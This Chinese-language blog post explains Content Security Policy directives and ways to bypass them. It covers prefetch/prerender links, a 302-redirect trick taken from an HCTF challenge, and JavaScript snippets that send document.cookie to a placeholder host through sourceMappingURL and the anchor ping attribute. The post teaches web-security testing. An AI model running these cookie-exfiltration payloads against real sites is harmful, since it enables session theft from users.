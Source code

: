 ```yaml
---
layout:		post
title:		Bypass CSP
data:		2016-12-08
author:		"dogewatch"
header-img:	"img/post-bg-2015.jpg"
tags:
    - web
---
```


> Safe is depending users

# CSP

CSP:Content Security Policy(内容安全策略)，其旨在减少跨站脚本攻击。由开发者定义一些安全性的策略声明，来指定可信的内容(脚本，图片，iframe，style，font等)来源。现代浏览器可以通过http头部的`Content-Security-Policy`来获取csp配置。指令如下表：

|     指令      |              说明              |
| :---------: | :--------------------------: |
| default-src |           定义默认加载策略           |
| connect-src |    定义ajax、websocket等加载策略     |
|  font-src   |          定义font加载策略          |
|  frame-src  |         定义frame加载策略          |
|   img-src   |           定义图片加载策略           |
|  media-src  |     定义audio、video等资源加载策略     |
| object-src  | 定义applet、embed、object等资源加载策略 |
| script-src  |           定义js加载策略           |
|  style-src  |          定义css加载策略           |
|   sandbox   |             沙箱选项             |
| report-uri  |             日志选项             |

一些属性值如下表：

|        属性值         |             示例             |                    说明                    |
| :----------------: | :------------------------: | :--------------------------------------: |
|         *          |         ing-src *          | 允许从任意url加载，除了data:blob:filesystem:schemes |
|       'none'       |     object-src 'none'      |               禁止从任何url加载资源               |
|       'self'       |       img-src 'self'       |                只可以加载同源资源                 |
|       data:        |    img-src 'self' data:    |              可以通过data协议加载资源              |
| domain.example.com | ing-src domain.example.com |               只可以从特定的域加载资源               |
|   *.example.com    |   img-src *.example.com    |         可以从任意example.com的子域处加载资源         |
|  https://cdn.com   |  img-src https://cdn.com   |            只能从给定的域用https加载资源             |
|       https:       |       img-src https:       |             只能从任意域用https加载资源             |
|  'unsafe-inline'   | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
|   'unsafe-eval'    |  script-src 'unsafe-eval'  |        允许一些不安全的代码执行方式，例如js的eval()        |

# CSP 绕过 

虽然csp对不同的资源，不同的加载权限都能够有一个比较明确的划分，但是这并不意味着就能彻底杜绝跨站脚本漏洞，因为在正常环境中，开发者也总会用跨站加载资源或者脚本的需求。试想一下，如果csp头设置成`default-src 'none'`，固然能够杜绝xss，但是这样也没几个网站能够正常使用了吧。

## 0x1 预加载

浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有`unsafe-inline`，则用预加载的方式可以向外界发出请求，例如：

```html
<!-- 预加载某个页面 -->
<link rel='prefetch' href='http://xxxx'><!-- firefox -->
<link rel='prerender' href='http://xxxx'><!-- chrome -->
<!-- 预加载某个图片 -->
<link rel='prefetch' href='http://xxxx/x.jpg'>
<!-- DNS 预解析 -->
<link rel="dns-prefetch" href="http://xxxx">
<!-- 特定文件类型预加载 -->
<link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->
```

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

1. URL中包含下载资源

2. 页面中包含音频、视频

3. POST、PUT和DELET操作的ajax请求

4. HTTP认证

5. HTTPS页面

6. 含恶意软件的页面

7. 弹窗页面

8. 占用资源很多的页面

9. 打开了chrome developer tools开发工具

## 0x2 302跳转

今年XCTF第一站杭电的HCTF里有一道题利用了302跳转来绕过CSP限制，当时并不知道这个点，所以下来之后再研究一下。

对于302跳转绕过CSP而言，实际上有以下几点限制：

1. “跳板”必须在允许的域内。

2. 要加载的文件的host部分必须跟允许的域的host部分一致，例如csp头内容是`script-src http://abc.xyz/asdf`，那么要加载的文件必须位于http://abc.xyz下，路径可以是`http://abc.xy/xxx/xx`

   举个例子，新建一个php，代码如下：

```php+HTML
<?php
  header("Content-Security-Policy: default-src 'self' script-src 'self' http://x.x.x.x/asdf);
?>
<html>
<script src="http://127.0.0.1/test/302.php?http://x.x.x.x/test/1.js">
</script>
</html>
```

然后再建一个用来跳转的php，在另一台服务器上，在test目录下建一个js我呢见，内容是`alert(1)`。结果成功弹窗：

![img](/img/post/csp-1.png)

可以试一下是不是通过跳转加载任意服务器上的文件，我们将csp头修改成`default-src 'self'`，结果如图，触发了浏览器的拦截。

![img](/img/post/csp-2.png)

由此可见，CSP规则在跳转之后路径部分的限制消失了，但是host部分的限制依然存在。适用场景就是假如某网站调用的某个外部站点可以上传文件，同时它自身又刚好有个重定向，则满足漏洞利用的条件

## 0x3 一些其他特性 

  利用javascript或者某些标签的某种特性可以绕过`unsafe-inline`向外界发出请求。

1. jQuery sourcemap

   ```javascript
   document.write(`<script>
   //@ 	   sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);
   ```

2. a标签的ping属性

   ```javascript
   a=document.createElement('a');
   a.href='#';
   a.ping='http://xxxx/?' + document.cookie;
   a.click();
   ```

3. 利用上传点，在上传的文件(如jpeg)中写javascript代码(chrome不行)。
